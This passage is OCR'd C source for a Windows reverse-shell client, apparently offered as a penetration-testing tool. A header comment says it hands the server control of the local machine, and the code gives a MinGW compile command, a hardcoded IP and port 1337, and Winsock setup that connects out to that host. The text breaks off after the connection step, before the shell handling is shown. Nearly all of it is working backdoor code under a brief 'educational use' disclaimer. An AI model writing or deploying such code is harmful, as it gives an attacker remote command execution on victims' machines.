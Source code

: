 ```c
 * received from the server on the local machine, giving the server
 * control over the local machine.
 *
 * Compile command (using MinGW on Wine):
 * wine gcc.exe windows.c -o windows.exe -lws2_32
 *
 * This code is intended for educational and legitimate penetration testing purposes only.
 * Please use responsibly and ethically.
 *
 */

#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdio.h>
#include <windows.h>
#include <process.h>

const char* const PORT = "1337";
const char* const IP = "10.37.129.2";

typedef struct {
    HANDLE hPipeRead;
    HANDLE hPipeWrite;
    SOCKET sock;
} ThreadParams;

DWORD WINAPI OutputThreadFunc(LPVOID data);
DWORD WINAPI InputThreadFunc(LPVOID data);
void CleanUp(HANDLE hInputWrite, HANDLE hInputRead, HANDLE hOutputWrite, HANDLE hOutputRead, PROCESS_INFORMATION processInfo, addrinfo* result, SOCKET sock);

int main(int argc, char** argv) {
    WSADATA wsaData;
    int err = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (err != 0) {
        fprintf(stderr, "WSAStartup failed: %d\n", err);
        return 1;
    }

    SOCKET sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, WSA_FLAG_OVERLAPPED);
    if (sock == INVALID_SOCKET) {
        fprintf(stderr, "Socket function failed with error = %d\n", WSAGetLastError());
        WSACleanup();
        return 1;
    }

    struct addrinfo hints = { 0 };
    hints.ai_family = AF_INET;
    hints.ai_socktype = SOCK_STREAM;
    struct addrinfo* result;
    err = getaddrinfo(IP, PORT, &hints, &result);
    if (err != 0) {
        fprintf(stderr, "Failed to get address info: %d\n", err);
        CleanUp(NULL, NULL, NULL, NULL, { 0 }, result, sock);
        return 1;
    }

    if (WSAConnect(sock, result->ai_addr, (int)result->ai_addrlen, NULL, NULL, NULL, NULL) == SOCKET_ERROR) {
        fprintf(stderr, "Failed to connect.\n");
        CleanUp(NULL, NULL, NULL, NULL, { 0 }, result, sock);
        return 1;
    }
```